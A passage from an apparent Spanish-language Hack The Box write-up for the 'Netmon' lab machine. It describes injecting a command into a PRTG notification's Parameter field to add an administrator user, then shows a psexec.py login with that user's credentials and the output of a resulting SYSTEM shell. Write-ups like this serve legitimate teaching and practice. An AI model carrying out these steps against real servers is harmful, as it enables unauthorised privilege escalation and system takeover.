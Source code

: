 Añadimos en el campo `Parameter` el comando para agregar nuevo usuario en grupo `administrators`


<img src="/assets/HTB/Netmon/notification.png">


Salvamos y para iniciar el proceso hay que clickar en el icono de la campana de la notificación que hemos creado


<img src="/assets/HTB/Netmon/bell.png">


Una vez realizada esta acción nos podemos conectar con la máquina víctima con el usuario que hemos creado con privilegios de administrador con la herramienta `psexec.py` de la suite de `Impacket`

```java
❯ /usr/share/doc/python3-impacket/examples/psexec.py htb:'abc123!'@10.10.10.152
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file rEQjkSxI.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service gBIc on 10.10.10.152.....
[*] Starting service gBIc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### Flags
